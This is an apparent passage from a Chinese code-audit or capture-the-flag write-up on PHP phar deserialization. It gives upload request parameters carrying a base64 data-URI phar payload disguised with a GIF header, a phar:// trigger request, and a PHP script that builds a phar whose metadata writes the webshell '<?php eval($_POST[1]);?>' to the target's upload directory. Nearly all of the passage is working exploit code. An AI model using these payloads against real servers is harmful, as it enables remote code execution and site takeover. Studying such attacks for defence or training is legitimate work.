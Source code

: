 也可以选择data伪协议来写入

action=upload&filename=1.txt&url=data:image/png;base64,R0lGODlhX19IQUxUX0NPTVBJTEVSKCk7ID8+DQqqAAAAAQAAABEAAAABAAAAAAB0AAAATzozOiJkaXIiOjM6e3M6NzoidXNlcmRpciI7TzozOiJkaXIiOjM6e3M6NzoidXNlcmRpciI7TjtzOjM6InVybCI7TjtzOjg6ImZpbGVuYW1lIjtOO31zOjM6InVybCI7TjtzOjg6ImZpbGVuYW1lIjtOO30IAAAAdGVzdC50eHQEAAAAZ/A3YwQAAAAMfn/YtgEAAAAAAAB0ZXN0ArqSkUWwQg9QITOBtgBp0RLFDjkCAAAAR0JNQg==

action=upload&filename=1.jpg&url=phar://upload/c47b21fcf8f0bc8b3920541abd8024fd/1.jpg

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2016.png)

这是目录781877bda0783aac

```php
<?php
class dir{
    public $userdir;
    public $url;
    public $filename;
}
$a=new dir();
$a->filename='/var/www/html/abebb7c39f4b5e46/upload/c47b21fcf8f0bc8b3920541abd8024fd/shell';
$a->userdir = '<?php eval($_POST[1]);?>';
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'."__HALT_COMPILER();"); 
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
